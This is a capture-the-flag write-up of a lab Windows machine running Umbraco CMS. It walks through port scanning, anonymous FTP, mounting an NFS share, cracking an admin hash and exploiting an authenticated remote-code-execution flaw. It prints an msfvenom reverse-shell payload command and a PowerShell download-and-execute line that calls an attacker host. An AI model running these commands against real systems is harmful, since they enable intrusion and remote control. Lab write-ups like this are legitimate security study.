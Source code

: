 ```yaml
---
title: ASCWG Final Round Machine Writeup
published: true
---
```


> ![logo](https://i.ibb.co/P9ByhXj/logo.png)

# []() Methodology

* Nmap scan
* find some mounted files.
* find username and password of Umbraco cms
* Execute command with Umbraco exploit and got reverse shell.
* got user.
* Privilege Escalation.

# []() Nmap Scan

* as always, i'll do nmap scan to find out which services running in this machine.

> i found some useful ports like 21 for ftp and **Anonymous FTP login allowed**, 80 for **Microsoft HTTPAPI**.

> **nmap -sC -sV -p- -oN scan.txt 10.10.10.180**

```ruby

Nmap scan report for 10.10.10.180
Host is up (0.44s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2m36s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-04-10T20:52:24
|_  start_date: N/A


```

# []() FTP Anonymous Login

> **first thing we should login to ftp and catch any important files but i didn't find anything.**

| Command        | Username          | Password |
|:-------------|:------------------|:------|
| ftp 10.10.10.80           | anonymous | anonymous  |

![ftp](https://i.ibb.co/1sr2KmP/ftp.png)

# []() Checking the Web-Page

* the web page was very simple and contain some useful data like usernames.

![](https://i.ibb.co/tZtRStB/webpage1.png)

* and here's some usernames.

![](https://i.ibb.co/VYL2nQH/wbpage2.png)

* as always i tried to bruteforce the username and password for the smb but i failed so let's enumerate some.

* when i ran gobuster i found an dir for umbraco cms.

> **gobuster dir -u http://10.10.10.180/ -w /usr/share/dirb/wordlists/common.txt -s 200**

![gobuster](https://i.ibb.co/db7f3xZ/gobuster.png)

* and here is the cms login page.

![cms](https://i.ibb.co/ZmTHzBg/cms.png)

* this cms vulnerable to auth RCE so we need some credentials.

> after enumerated some mounted files from the machine i found the user and the password.

| Command1        | Command2          | Command3 |
|:-------------|:------------------|:------|
| /usr/sbin/showmount -e 10.10.10.180           | mkdir mounted_files | sudo mount 10.10.10.180://site_backups ./mounted_files  |

![](https://i.ibb.co/wyKCwdn/mount.png)

> **in the Web.config file, i noticed the connection date will be stored in the Umbraco.sdf.**

![](https://i.ibb.co/w4W9x6c/subl.png)

* let's see what is in Umbraco.sdf. this file in App_Data dir.

![](https://i.ibb.co/m8v96XX/admin.png)


| Username        | Email          | Password |
|:-------------|:------------------|:------|
| admin          | admin@htb.local | b8be16afba8c314ad33d812f22a04991b90e2aaa  |

* the password encrypted with SHA1. let's decrypt it.

![](https://i.ibb.co/ZW3fNL2/password.png)

* Password: **baconandcheese**

* let's login to the cms panel.

![](https://i.ibb.co/wpVjHSv/cmspage.png)

* now we can use this [Umbraco-RCE Exploit](https://github.com/noraj/Umbraco-RCE.git) to get reverse shell.

* let's test the exploit.

* first we need a reverse shell to upload it to the machine to give us reverse shell.

> **msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=HOST LPORT=PORT -f psh -o reverse-shell.ps1**

* now let's upload our reverse shell to the machine with the exploit.

> **./umbraco_cve.py -u admin@htb.local -p baconandcheese -i 'http://remote.htb' -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.xx.xx:80/reverse.ps1')"**

![reverse-shell](https://i.ibb.co/BTq01sQ/reverse-shell.png)

* and we got user flag.

* after some enumeration i found that TeamViewer was installed in this box. so run this command in the meterpreter session.

* here's the administrator password.

![](https://i.ibb.co/JKYhsvG/root.png)

* there is another way to get root with UsoSvc service and you can read about it from here. [hacktricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)

* let's login as administrator now with evil-winrm.

![](https://i.ibb.co/yqz7qKC/final.png)

* Thanks for reading.
* Cheers!

<script src="https://www.hackthebox.eu/badge/103789"></script>








